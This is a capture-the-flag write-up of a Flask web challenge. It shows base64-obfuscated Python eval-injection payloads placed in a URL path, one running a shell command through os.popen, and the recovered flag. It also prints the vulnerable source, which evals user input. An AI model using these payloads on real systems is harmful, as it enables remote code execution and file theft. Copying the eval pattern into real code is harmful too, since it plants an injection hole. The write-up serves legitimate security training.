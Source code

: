 # Streamlining portal NG

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is
on http://user-info-ng.mysterious-delivery.tcc.

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

---

This challenge is a follow-up to [Streamlining portal](../01-streamlining-portal/README.md).

Obviously, the payload from the original challenge doesn't work here. It returns `404 NOT FOUND` so there is
some kind of new filter.

The first idea was to obfuscate the payload (`__import__('os').popen('cat /app/FLAG/flag.txt').read()`):

```
/hello/"+eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IC9hcHAvRkxBRy9mbGFnLnR4dCcpLnJlYWQoKQ=='.encode('ascii')))#

> Hello
```

It returns empty string. No error, just empty string. It works well for the original challenge.

After some tries and errors I changed the payload to `open("/app/FLAG/flag.txt", "r").read()`:

```
/hello/"+eval(__import__('base64').b64decode('b3BlbigiL2FwcC9GTEFHL2ZsYWcudHh0IiwgInIiKS5yZWFkKCk='.encode('ascii')))#

> Hello FLAG{OONU-Pm7V-BK3s-YftK}
```

---

## Bonus: Reading the source code

Read `/app/app.py`:

```python
from flask import Flask, Blueprint, redirect, render_template, abort

bp = Blueprint("app", __name__)


def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app


@bp.route('hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)


@bp.route('')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```